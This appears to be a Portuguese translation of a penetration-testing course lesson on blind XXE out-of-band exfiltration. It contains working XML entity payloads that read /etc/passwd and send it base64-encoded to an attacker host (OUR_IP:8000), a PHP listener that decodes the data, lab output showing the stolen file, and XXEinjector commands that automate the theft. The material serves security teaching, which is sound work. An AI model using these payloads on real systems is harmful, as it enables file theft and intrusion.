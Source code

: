 # exfiltração cega de dados

Na seção anterior, vimos um exemplo de vulnerabilidade cega XXE, onde não recebemos nenhuma saída contendo nenhuma de nossas entidades de entrada XML. Como o servidor web exibia erros de execução do PHP, poderíamos usar essa falha para ler o conteúdo dos arquivos a partir dos erros exibidos. Nesta seção, veremos como podemos obter o conteúdo dos arquivos em uma situação completamente cega, onde não obtemos a saída de nenhuma das entidades XML nem exibimos nenhum erro de PHP.

## Exfiltração de dados fora de banda

Se tentarmos repetir qualquer um dos métodos com o exercício que encontramos em ``/blind``, perceberemos rapidamente que nenhum deles parece funcionar, pois não temos como imprimir nada na resposta da aplicação web. Para tais casos, podemos utilizar um método conhecido como Out-of-band (OOB) Data Exfiltration, que é frequentemente usado em casos cegos semelhantes com muitos ataques da web, como injeções cegas de SQL, injeções cegas de comando, XSS cego e, claro, XXE cego. Os módulos ``Cross-Site Scripting (XSS)`` e ``Whitebox Pentesting 101: Command Injections`` discutiram ataques semelhantes, e aqui utilizaremos um ataque semelhante, com pequenas modificações para se adequar à nossa vulnerabilidade XXE.

Em nossos ataques anteriores, utilizamos um ataque ``out-of-band`` porque hospedamos o arquivo DTD em nossa máquina e fizemos com que o aplicativo da web se conectasse a nós (portanto, fora da banda). Então, nosso ataque desta vez será bem parecido, com uma diferença significativa. Em vez de fazer com que o aplicativo da web envie nossa entidade ``file`` para uma entidade XML específica, faremos com que o aplicativo da web envie uma solicitação da web ao nosso servidor da web com o conteúdo do arquivo que estamos lendo.

Para fazer isso, podemos primeiro usar uma entidade de parâmetro para o conteúdo do arquivo que estamos lendo enquanto utilizamos o filtro PHP para codificá-lo em base64. Em seguida, criaremos outra entidade de parâmetro externo e referenciá-la ao nosso IP, e colocaremos o valor do parâmetro do arquivo como parte da URL que está sendo solicitada via HTTP, da seguinte forma:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

Se, por exemplo, o arquivo que queremos ler tivesse o conteúdo ``XXE_SAMPLE_DATA``, então o parâmetro ``file`` conteria seus dados codificados em base64 (``WFhFX1NBTVBMRV9EQVRB``). Quando o XML tentar fazer referência ao parâmetro ``oob`` externo de nossa máquina, ele solicitará ``http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB``. Finalmente, podemos decodificar a string ``WFhFX1NBTVBMRV9EQVRB`` para obter o conteúdo do arquivo. Podemos até escrever um script PHP simples que detecte automaticamente o conteúdo do arquivo codificado, decodifique-o e envie-o para o terminal:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Portanto, primeiro escreveremos o código PHP acima em ``index.php`` e, em seguida, iniciaremos um servidor PHP na porta ``8000``, da seguinte forma:

```sh
NycolasES6@htb[/htb]$ vi index.php # here we write the above PHP code
NycolasES6@htb[/htb]$ php -S 0.0.0.0:8000
```

Agora, para iniciar nosso ataque, podemos usar um payload semelhante ao que usamos no ataque baseado em erro, e simplesmente adicionar ``<root>&content;</root>``, que é necessário para referenciar nossa entidade e fazer com que ela envie a solicitação para nossa máquina com o conteúdo do arquivo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Então, podemos enviar nossa solicitação para a aplicação web:

![alt text](web_attacks_xxe_blind_request.jpg)

Finalmente, podemos voltar ao nosso terminal e veremos que realmente recebemos a solicitação e seu conteúdo decodificado:

```bash
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

> Dica: além de armazenar nossos dados codificados em base64 como parâmetro para nosso URL, podemos utilizar a exfiltração DNS OOB colocando os dados codificados como um subdomínio para nosso URL (por exemplo, ENCODEDTEXT.our.website.com) e, em seguida, usar uma ferramenta como o ``tcpdump`` para capturar qualquer tráfego de entrada e decodificar a string do subdomínio para obter os dados. É verdade que esse método é mais avançado e requer mais esforço para exfiltrar os dados.

## Exfiltração OOB automatizada

Embora em alguns casos possamos ter que usar o método manual que aprendemos acima, em muitos outros casos, podemos automatizar o processo de exfiltração cega de dados XXE com ferramentas. Uma dessas ferramentas é o ``XXEinjector``. Esta ferramenta oferece suporte à maioria dos truques que aprendemos neste módulo, incluindo XXE básico, exfiltração de fonte ``CDATA``, ``XXE baseado em erro`` e ``OOB XXE cego``.

Para usar esta ferramenta para exfiltração OOB automatizada, podemos primeiro clonar a ferramenta em nossa máquina, da seguinte forma:

```bash
NycolasES6@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Assim que tivermos a ferramenta, podemos copiar a solicitação HTTP do Burp e gravá-la em um arquivo para uso da ferramenta. Não devemos incluir os dados XML completos, apenas a primeira linha, e escrever ``XXEINJECT`` depois dela como um localizador de posição para a ferramenta:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Agora, podemos executar a ferramenta com os sinalizadores ``--host``/``--httpport`` sendo nosso IP e porta, o sinalizador ``--file`` sendo o arquivo que escrevemos acima e o sinalizador ``--path`` sendo o arquivo que queremos ler. Também selecionaremos os sinalizadores ``--oob=http`` e ``--phpfilter`` para repetir o ataque OOB que fizemos acima, como segue:

```bash
NycolasES6@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

Vemos que a ferramenta não imprimiu os dados diretamente. Isso ocorre porque codificamos os dados em base64, para que eles não sejam impressos. De qualquer forma, todos os arquivos exfiltrados são armazenados na pasta de ``Logs`` da ferramenta, e podemos encontrar nosso arquivo lá:

```bash
NycolasES6@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```









